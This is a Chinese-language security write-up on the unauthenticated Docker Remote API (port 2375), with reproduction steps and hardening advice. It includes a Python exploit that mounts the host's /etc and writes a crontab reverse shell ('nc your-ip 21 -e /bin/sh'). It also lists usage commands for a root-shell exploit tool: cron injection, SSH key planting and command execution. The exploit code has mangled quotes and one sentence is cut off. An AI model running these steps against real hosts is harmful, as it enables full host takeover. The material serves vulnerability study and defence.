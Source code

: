 ```yaml
---
title: "Docker 未授权访问"
id: zhfly2889
---
```


# Docker 未授权访问

## 一、漏洞简介

#### 1\. 基础介绍

http://www.loner.fm/drops/##!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

docker swarm 是一个将docker集群变成单一虚拟的docker host工具，使用标准的Docker API，能够方便docker集群的管理和扩展，由docker官方提供，具体的大家可以看官网介绍。

漏洞发现的起因是，有一位同学在使用docker swarm的时候，发现了管理的docker 节点上会开放一个TCP端口2375，绑定在0.0.0.0上，http访问会返回 404 page not found ，然后他研究了下，发现这是 Docker Remote API，可以执行docker命令，比如访问 http://host:2375/containers/json 会返回服务器当前运行的 container列表，和在docker CLI上执行 docker ps 的效果一样，其他操作比如创建/删除container，拉取image等操作也都可以通过API调用完成，然后他就开始吐槽了，这尼玛太不安全了。

然后我想了想 swarm是用来管理docker集群的，应该放在内网才对。问了之后发现，他是在公网上的几台机器上安装swarm的，并且2375端口的访问策略是开放的，所以可以直接访问。

#### 2\. 测试环境配置

先关闭docker，然后开启：

```
sudo service docker stop
# 绑定Docker Remote Api在指定端口（这里是2375），可以自行测试。
sudo docker daemon  -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock 
```

参考API规范进行渗透：https://docs.docker.com/engine/reference/api/docker-remote-api-v1.23/

操作Docker API可以使用python dockert api 完成。

pip install docker-py

API使用参考：https://docker-py.readthedocs.io/en/stable/api/##client-api

## 二、影响范围

## 三、复现过程

利用方法是，我们随意启动一个容器，并将宿主机的/etc目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

```
import docker `client = docker.DockerClient(base_url=‘[http://your-ip:2375/](http://your-ip:2375/)’)

data = client.containers.run(‘alpine:latest’, r’’‘sh -c “echo ‘* * * * * /usr/bin/nc your-ip 21 -e /bin/sh’ >> /tmp/etc/crontabs/root” ‘’’, remove=True, volumes={’/etc’: {‘bind’: ‘/tmp/etc’, ‘mode’: ‘rw’}})` 
```

写入crontab文件，成功反弹shell：

![image](../img/57c87bf8b1cad02b3b4317b9bb2622e5.png)

#### python脚本

https://github.com/ianxtianxt/docker_api_vul

*   安装类库
    `pip install -r requirements.txt`
*   查看运行的容器
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375`
*   查看所有的容器
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -a`
*   查看所有镜像
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -l`
*   查看端口映射
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -L`
*   写计划任务（centos,redhat等,加-u参数用于ubuntu等）
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -H 反弹ip -P 反弹端口`
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -u -i 镜像名 -H 反弹ip -P 反弹端口`
*   写sshkey(自行修改脚本的中公钥)
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -k`
*   在容器中执行命令
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -e "id" -I 容器id`
*   删除容器
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -c -I 容器id`
*   修改client api版本
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -v 1.22`
*   查看服务端api版本
    `python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -V`

#### 3.3 其他的一些exp

https://github.com/netxfly/docker-remote-api-exp
https://github.com/zer0yu/SomePoC/blob/master/Docker/Docker_Remote_API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E.py
https://github.com/JnuSimba/MiscSecNotes/tree/master/Docker%E5%AE%89%E5%85%A8

#### 4\. 防护策略

*   1.修改 Docker Remote API 服务默认参数。注意：该操作需要重启 Docker 服务才能生效。

*   2.修改 Docker 的启动参数：
    定位到 DOCKER_OPTS 中的 tcp://0.0.0.0:2375，将0.0.0.0修改为127.0.0.1
    或将默认端口 2375 改为自定义端口
    为 Remote API 设置认证措施。参照 官方文档 配置 Rem

*   3.注意：该操作需要重启 Docker 服务才能生效。
    修改 Docker 服务运行账号。请以较低权限账号运行 Docker 服务；另外，可以限制攻击者执行高危命令。

*   4.注意：该操作需要重启 Docker 服务才能生效。
    设置防火墙策略。如果正常业务中 API 服务需要被其他服务器来访问，可以配置安全组策略或 iptables 策略，仅允许指定的 IP 来访问 Docker 接口。